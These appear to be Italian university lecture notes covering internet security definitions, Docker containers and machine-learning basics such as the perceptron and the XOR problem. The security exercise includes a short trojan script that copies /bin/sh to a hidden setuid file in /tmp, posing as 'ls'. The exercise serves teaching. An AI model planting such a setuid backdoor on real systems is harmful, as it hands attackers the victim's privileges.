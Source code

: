 # 2022-03-14
# Cose da cercare
- [ ] [Bug dash](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=%20734869)
- [ ] PSD2
# Internet Security
![[Recording 20220314131117.webm]]

Anche solo fare una copia di file può portare problemidi sicurezza dato che si parla di permessi del file che copiandolo diventa di nostra proprietà

!def Vulnerabilità
Una vulnerabilità è una particolarità del sistema che può essere usato per perpretare azioni con intenzioni malevole

!def Attacco
La vera e propria perpretazione delle azioni malevole

> Noi dovremo imparare inquesto insegnamento metodi e tecniche fondamentali:
> - Crittografia
> - Policy
> - Conoscenza, possesso, biometria
> - Programmi di protezione
> - Protocolli di sicurezza
> - Sensibilizzazione dell'utente

```ad-def 
title:*Sicurezza*

- Non un prodotto ma un processo
- anello più debole di una catena
- Espressa sa che cosa
- Sempre soggeta all'analisi costio/benefici
- Si realizza in ppratica mediante livelli di sicurezza
```
!def Rischi di base per la sicurezza
- complessità del singolo sistema da mettere in sicurezza
- Conbinazione di sistemi
- Predisposizioni ai bug
- Proprietà emergenti
- Interazione con l'uomo

Una proprietà di sicurezza è presente quando è presente un mezzo d'attacco

## Esercizi
````ad-exercise 
title:Attacco trojan
Provare su varie distro Ubuntu

```bash
cp /bin/sh /tmp/.xxsh
chmod u+s,o+x /tmp/.xxsh
rm ./ls
ls $*
```
````

# TAP
## Argomenti
- [[#Docker]]

## Docker
!def Container
Un _container_ è un oggetto contenente la _configurazione_ e tutte le _dipendenze_ necessarie ad un *processo*

La containerizzazione dei processi fornisce isolamento, riutilizzo cross platform, ...

!def Docker vs Virtualizzazione
(Sono totalmente diversi... l'unica cosa che noto in comune è una questione di setup/configuration ed isolamento)
In comune hanno una preparazione del campo per eseguire qualcosa (dipendenze e configurazione)

# Machine Learning

generalmente il machine learning si suddivide in descriminativi e generativi

```ad-def 
title:Discriminativi
Trovare un bound di decisione che deve essere appreso
trovare una probabilità a posteriori $P(y|x)$

Gli algoritmi Deep learning fanno capo a questa categoria
```
```ad-def
title:Generativi
Apprendere la probabilità congiunta $P(y,x) = P(y|x)P(x) = P(x|y)P(y)$ 
```

!def Perceptron
Ideato nel 1958 da [...]; è basato sul design dei neuroni.

- Peso $\delta_j \forall$ Componente $x_j$ normalizzato$
- Normalizzazione: $x_j^{(i)} \in [0,1]$
- Moltiplicazione dei pesi per le componenti di input
- Somma dei prodotti
- Risultato delle somme è confrontato rispetto a t risultando $1$ quando $\sum_{j=1}^{d}{\delta_jx_j}>t$ (biass) altrimenti $0$
- Algoritmo di learning
## Algoritmi di learning
### Grid search
- $t\in\mathscr{R}$ randomica
- $\delta_j \in [0,1]$ provando un numero finito di possibilità per ognuno di loro suddividendo $[0,1]$ in $n$ valori equidistanti
### Un metodo di cui non so il nome
- $t\in\mathscr{R}$ randomica
- $\delta_j \in [0,1]$ randomici
- controllo dei risultati e calcolo dell'errore
	- $\hat{y}=sign(\sum_{j=1}^{d}{\delta_jx_j}-t)$
	- dove $t = \delta_0 x_0$;$\;x_0=1$
- correzione dei pesi
  ${\delta_j}_{\tau_1} = {\delta_j}_{\tau_0}+(y-\hat{y})\epsilon \;\forall j$ 

Nel 1969 si dimostrò che il perceptron non basta a risolvere il problema della ***XOR***
$$
\displaylines{
	\begin{cases}
		0\delta_1 &+0\delta_2 &< t &\implies t>0      \\
		1\delta_1 &+1\delta_2 &< t                     \\
		0\delta_1 &+1\delta_2 &> t &\implies \delta_2>t \\
		1\delta_1 &+0\delta_2 &> t &\implies \delta_1>t  \\
	\end{cases}\\
	\delta_1 + \delta_2 > 2t \implies t>2t
}
$$

## Regressione
> Due fasi, *learning* ed *estimation*
### Regressione lineare
